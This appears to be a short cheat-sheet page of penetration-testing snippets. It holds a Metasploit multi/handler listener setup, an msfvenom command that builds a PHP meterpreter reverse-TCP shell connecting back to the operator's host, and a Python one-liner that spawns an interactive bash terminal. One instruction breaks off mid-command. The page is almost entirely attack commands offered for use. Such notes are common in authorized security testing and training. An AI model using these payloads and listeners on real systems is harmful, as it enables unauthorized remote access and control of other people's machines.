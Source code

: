 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python
##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
